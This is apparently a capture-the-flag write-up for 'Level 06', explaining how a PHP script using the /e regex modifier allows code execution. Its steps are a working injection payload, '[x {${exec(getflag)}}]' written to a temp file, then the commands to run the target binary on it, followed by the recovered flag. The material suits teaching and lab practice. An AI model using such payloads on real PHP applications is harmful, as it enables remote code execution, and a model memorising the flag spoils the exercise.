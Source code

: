# Level 06

This exercice is about exploiting a php script that uses `/e` in a regular expressions which allows us to execute code.

`echo '[x {${exec(getflag)}}]' > /tmp/tata`
<br>
`chmod +r /tmp/tata`
<br>
`./level06 /tmp/tata`

**Flag:** `wiok45aaoguiboiki2tuin6ub`
